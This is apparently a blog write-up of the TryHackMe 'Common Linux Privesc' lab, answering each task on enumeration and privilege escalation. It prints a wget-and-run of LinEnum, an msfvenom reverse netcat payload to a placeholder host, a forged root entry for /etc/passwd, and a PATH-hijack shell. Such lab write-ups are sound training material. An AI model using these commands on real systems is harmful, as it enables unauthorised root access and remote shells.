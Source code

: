 ```yaml
---
title: Write-Up [THM] Common Linux Privesc
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "Linux"
  - "Bash"
  - "Privilege Escalation"
social-image: "/media/thm/linux-privesc/theme.png"
description: "It's a write-up about the room : [Try Hack Me - Room : Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)"
---
```


It's a write-up about the room : [Try Hack Me - Room : Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)

# [Task 1] Get Connected

> This room will explore common Linux Privilege Escalation vulnerabilities and techniques, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room.

We deploy the instance. 

# [Task 2] Understanding Privesc

![Task 2](/media/thm/linux-privesc/task-2.png)

# [Task 3] Enumeration

![Task 3](/media/thm/linux-privesc/task-3.png)

# [Task 4] - Enumeration

* First, let's SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.
So, `ssh user3@IP_MACHINE` with the password `password`.

* What is the target's hostname?  

We o `hostname` to know the name of the machine. The answer is **polobox**.

* Look at the output of /etc/passwd how many "user[x]" are there on the system?  

We use the command `cat /etc/passwd | grep user` and find **8** users.

* How many available shells are there on the system? 

We download a local copy of LinEnum from [Linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). After that, we start a Python web server to get LinEnum on the target machine with :  

> Using Python 2: python2 -m SimpleHTTPServer   
> Using Python 3: python -m http.server

We get the LinEnum bash file using the command : `wget http://VPN_ADRESS:8000/LinEnum.sh`.  

We find the VPN_ADRESS corresponding to `utun` on the ouptut of the command `ifconfig` on the local machine.  

Make the file executable using the command `chmod +x LinEnum.sh` on the target machine, and execute this one : `./LinEnum.sh`. The output reveals to us : 

```
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```
So, there are **4** available shells on the system.

* What is the name of the bash script that is set to run every 5 minutes by cron? 

We search the bash script in the crontab : `cat /etc/crontab`.   
There is this line : `*/5  *    * * * root    /home/user4/Desktop/autoscript.sh`.  
Therefore, the name of the bash script thait is set to run every 5 minutes by cron is **autoscript.sh**. 

* What critical file has had its permissions changed to allow some users to write to it?

The file is **/etc/passwd**.

**Other file** : `linepeas.sh` available on this website [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

# [Task 5] - Abusing SUID/GUID Files

* What is the path of the file in user3's directory that stands out to you?

We use `pwd` and `ls` to know the path of the shell. We find **/home/user3/shell**.
After that we execute the binary `./shell`.

Synbollically : find / -perm -u=s -type f 2>/dev/null  
Numerically : find / -perm -4000 -type f 2>/dev/null


# [Task 6] - Exploiting Writeable /etc/passwd

We swap to user7 with `su user7` and the password `password`.  

* Having read the information above, what direction privilege escalation is this attack?

The direction privilege escalation is **vertical**.

* Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]". What is the hash created by using this command with the salt, "new" and the password "123"?

First, go to the home directory of the user7 : `cd /home/user7`.  
After that, we use : `openssl passwd -1 -salt new 123` and find the hash **$1$new$p7ptkEKU1HnaHpRtzNizS1**.

* Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

We create a new root user account with vi : `vi /etc/passwd` and we add this line :  
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

The answer is `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

# [Task 7] - Escaping Vi Editor

We swap to user8 with `su user8` and the password `password`.  

* Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root? `NOPASSWD`

# [Task 8] - Exploiting Crontab

We swap to user4 with `su user4` and the password `password`.  

* What is the flag to specify a payload in msfvenom? `-p`

We create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`. 

* What directory is the "autoscript.sh" under? `/home/user4/Desktop`

# [Task 9] - Exploiting PATH Variable

We swap to user5 with `su user5` and the password `password`.  

* Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?   

We execute the binary `./shell` and this one do the same as **ls** command.

* Now we're inside tmp, let's create an imitation executable. The format for what we want to do is: echo "[whatever command we want to run]" > [name of the executable we're imitating]
What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating. `echo "/bin/bash" > ls`

* Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this? `chmod +x ls`